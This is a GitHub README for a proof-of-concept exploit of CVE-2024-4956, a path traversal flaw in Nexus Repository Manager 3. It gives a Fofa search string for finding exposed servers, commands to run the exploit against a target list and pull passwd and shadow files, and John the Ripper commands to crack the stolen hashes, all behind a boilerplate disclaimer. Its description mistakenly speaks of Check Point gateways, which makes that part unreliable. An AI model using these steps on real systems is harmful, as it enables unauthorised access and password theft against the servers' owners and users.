 # CVE-2024-4956

[![My Shop](https://img.shields.io/badge/My%20Shop-verylazytech-%23FFDD00?style=flat&logo=buy-me-a-coffee&logoColor=yellow)](https://buymeacoffee.com/verylazytech/extras)
[![Medium](https://img.shields.io/badge/Medium-%40verylazytech-%231572B6?style=flat&logo=medium&logoColor=white)](https://medium.com/@verylazytech)
[![Github](https://img.shields.io/badge/Github-verylazytech-%23181717?style=flat&logo=github&logoColor=white)](https://github.com/verylazytech)
[![Buy Me A Coffee](https://img.shields.io/badge/Buy%20Me%20A%20Coffee-verylazytech-%23FFDD00?style=flat&logo=buy-me-a-coffee&logoColor=yellow)](https://buymeacoffee.com/verylazytech)

# POC - CVE-2024–4956 - Nexus Repository Manager 3 Unauthenticated Path Traversal

Potentially allowing an attacker to read certain information on Check Point Security Gateways once connected to the internet and enabled with Remote Access VPN or Mobile Access Software Blades. A security fix that mitigates this vulnerability is available.

**Read about it** — [CVE-2024-4956](https://nvd.nist.gov/vuln/detail/CVE-2024-4956)

> **Disclaimer**: This Proof of Concept (POC) is made for educational and ethical testing purposes only. Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

## Getting Started

### Finding Targets

To find potential targets, use Fofa (similar to Shodan.io):

- **Fofa Dork**: `header="Server: Nexus/3.53.0-01 (OSS)"`
  
![Alt text](POC1.png)

First, clone the repository:

```bash
git clone https://github.com/verylazytech/CVE-2024-4956
```

Next chose your target and add it to list.txt file in this format:

- https://ip_address

Run the Exploit:

```bash
python3 CVE-2024-4956.py -l list.txt
```
The output is passwd and shadow files that found:

![Alt text](POC2.png)


Now after you find both file passwd & shadow you can try crack the hash with JohnTheRipper, after running the exploit you have 2 files, passwd & shadow, so you can merge them into one file and try crack them (I used rockyou.txt but it can be any password wordlist):
```bash
unshadow passwd shadow > unshadowed.txt 
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
